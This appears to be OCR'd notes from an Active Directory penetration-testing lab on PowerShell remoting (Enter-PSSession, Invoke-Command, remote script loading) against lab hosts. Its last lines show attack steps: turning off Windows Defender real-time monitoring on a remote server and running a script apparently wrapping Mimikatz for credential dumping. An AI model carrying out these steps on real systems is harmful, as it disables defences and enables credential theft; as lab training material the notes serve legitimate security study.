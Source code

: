 # One to One - Enter-PSSession
- Interactive
- Runs in a new process (`wsmprovhost`)
- Is Stateful

## Enter a PSSession
```powershell
PS C:\AD\Tools> Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> whoami /priv

enter-pssession -computername ad -credential domain-lab\Administrator
```

# Script Execution

## Invoke-Command | Function Load | File Load

### Execute Scripts
```powershell
PS C:\AD\Tools> Invoke-Command -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local -ScriptBlock {whoami;hostname}
PS C:\AD\Tools> Invoke-Command -ComputerName (Get-Content .\computers.txt) -ScriptBlock {whoami;hostname}
```

### Execute Functions
```powershell
PS C:\Users\student157\Desktop> hello
PS C:\Users\student157\Desktop> Invoke-Command -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local -ScriptBlock ${function:hello}
PS C:\Users\student157\Desktop> cat .\hello.ps1

function hello {
    Write-Host "Hello World! from function"
}
```

### Execute File
```powershell
PS C:\Users\student157\Desktop> $sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
PS C:\Users\student157\Desktop> Invoke-Command -FilePath C:\Users\student157\Desktop\hello.ps1 -Session $sess
PS C:\Users\student157\Desktop> Enter-PSSession -Session $sess
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> hello
```

# Language Mode


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> $proc = Get-Process
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> exit
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> $proc
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference DisableRealtimeMonitoring $true -Verbose 
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference DisableRealtimeMonitoring $true -Verbose 